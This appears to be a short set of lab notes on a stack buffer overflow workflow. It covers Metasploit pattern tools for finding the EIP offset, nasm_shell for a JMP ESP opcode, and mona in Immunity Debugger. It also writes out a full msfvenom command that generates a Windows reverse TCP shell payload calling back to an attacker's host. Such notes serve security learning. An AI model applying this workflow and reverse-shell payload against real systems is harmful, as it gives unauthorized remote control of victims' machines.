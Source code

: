 Metasploit framework can be used to find the exact number of characters of crash points. 
I used "pattern_create.rb" tool. 
                    ./pattern_create.rb -l 3000
                    
After pattern created, we should change our code from fuzzing.py to offset.py. Then we crash the server by offset.py so EIP can be obtained from Immunity Debugger. 
Next, I used 'pattern_offset.rb' tools:
                    ./pattern_offset.rb -l 3000 -q <EID>
Hence, I got the exact match at ofset.

NOTE1: 
    ./nasm_shell.rb tool helps you to convert assembly (JMP ESP) to hex format
NOTE2: 
    mona should be download to the immunity debugger 
NOTE3: 
    msfvenom was used to create shell script to connect server to us. Code is like the below:

      msfvenom -p windows/shell_reverse_tcp LHOST=<Host IP> LPORT=<port number:4444> EXITFUNC=thread -f c -a x86 -b "\x00"
